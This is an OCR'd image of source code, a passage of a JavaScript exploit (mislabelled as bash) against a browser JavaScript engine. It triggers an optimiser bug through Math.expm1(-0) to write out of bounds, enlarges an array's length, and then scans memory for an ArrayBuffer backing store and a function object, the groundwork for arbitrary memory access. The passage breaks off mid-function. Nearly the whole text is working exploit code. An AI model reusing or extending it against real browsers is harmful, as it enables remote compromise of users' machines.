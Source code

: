 ```bash
    var ab = new ArrayBuffer(0x233);
    var data_view = new DataView(ab);

    function opt_me(x) {
        var oob_arr = [1.1, 1.2, 1.3, 1.4, 1.5, 1.6];
        big_arr = [1.1, 1.2];
        ab = new ArrayBuffer(0x233);
        data_view = new DataView(ab);

        let obj = {
            a: -0
        };
        let idx = Object.is(Math.expm1(x), obj.a) * 10;

        var tmp = f2u(oob_arr[idx])[0];
        oob_arr[idx] = u2f(0x234, tmp);
    }
    for (let a = 0; a < 0x1000; a++)
        opt_me(0);

    opt_me(-0);
    var optObj = {
        flag: 0x266,
        funcAddr: opt_me
    };

    log("[+] big_arr.length: " + big_arr.length);

    if (big_arr.length != 282) {
        log("[-] Can not modify big_arr length !");
        return;
    }
    var backing_store_idx = -1;
    var backing_store_in_hign_mem = false;
    var OptObj_idx = -1;
    var OptObj_idx_in_hign_mem = false;

    for (let a = 0; a < 0x100; a++) {
        if (backing_store_idx == -1) {
            if (f2u(big_arr[a])[0] == 0x466) {
                backing_store_in_hign_mem = true;
                backing_store_idx = a;
            } else if (f2u(big_arr[a])[1] == 0x466) {
                backing_store_in_hign_mem = false;
                backing_store_idx = a + 1;
            }
        }

        else if (OptObj_idx == -1) {
            if (f2u(big_arr[a])[0] == 0x4cc) {
                OptObj_idx_in_hign_mem = true;
                OptObj_idx = a;
            } else if (f2u(big_arr[a])[1] == 0x4cc) {
                OptObj_idx_in_hign_mem = false;
                OptObj_idx = a + 1;
            }
        }

    }

    if (backing_store_idx == -1) {
        log("[-] Can not find backing store !");
        return;
```